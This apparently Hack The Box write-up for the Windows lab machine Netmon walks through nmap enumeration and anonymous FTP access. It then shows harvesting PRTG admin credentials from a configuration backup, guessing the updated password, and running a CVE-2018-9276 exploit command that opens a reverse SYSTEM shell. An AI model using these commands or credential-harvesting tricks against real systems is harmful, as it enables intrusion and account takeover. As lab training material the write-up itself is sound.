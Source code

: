 # About
Netmon is an easy difficulty Windows box with simple enumeration and exploitation. PRTG is running, and an FTP server with anonymous access allows reading of PRTG Network Monitor configuration files. The version of PRTG is vulnerable to RCE which can be exploited to gain a SYSTEM shell. 

## Enumeration
`nmap -A -T4 -p- 10.129.230.176
```
PORT      STATE    SERVICE      VERSION
21/tcp    open     ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
80/tcp    open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1699/tcp  filtered rsvp-encap-2
1887/tcp  filtered filex-lport
4707/tcp  filtered unknown
5985/tcp  open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc        Microsoft Windows RPC
49665/tcp open     msrpc        Microsoft Windows RPC
49666/tcp open     msrpc        Microsoft Windows RPC
49667/tcp open     msrpc        Microsoft Windows RPC
49668/tcp open     msrpc        Microsoft Windows RPC
49669/tcp open     msrpc        Microsoft Windows RPC
```
### FTP Anon Login
![](Images/Pasted%20image%2020250416221722.png)

Under the \Windows directory I found 
![](Images/Pasted%20image%2020250416221858.png)

Version confirmation
`PRTG Network Monitor 18.1.37.13946`
C:\ProgramData\Paessler is the default directory for the application.
![](Images/Pasted%20image%2020250416222803.png)

Lets grab the whole directory to read locally.
`wget -r ftp://10.129.230.176/ProgramData/Paessler`

Also Anon FTP allowed us to get the user flag
![](Images/Pasted%20image%2020250416222632.png)

In the directory seems to be an old backup of the configuration I wonder if we can find something
![](Images/Pasted%20image%2020250416223001.png)

Bingo
prtgadmin:PrTg@dmin2018

![](Images/Pasted%20image%2020250416223025.png)

![](Images/Pasted%20image%2020250416223453.png)

Since this is an old configuration, typical users like changing the year when they have to adjust passwords so lets try the next year in line.
`prtgadmin:PrTg@dmin2019`
![](Images/Pasted%20image%2020250416223526.png)

## Exploitation
![](Images/Pasted%20image%2020250416222123.png)

The only promising one looks like it requires authentication so I will probably need to enumerate further
prtgadmin:PrTg@dmin2019
https://github.com/A1vinSmith/CVE-2018-9276

`./exploit.py -i 10.129.230.176 -p 80 --lhost 10.10.14.251 --lport 4444 --user prtgadmin --password PrTg@dmin2019`
![](Images/Pasted%20image%2020250416223859.png)

That was a quick easy root

![](Images/Pasted%20image%2020250416223928.png)

![](Images/Pasted%20image%2020250416223954.png)
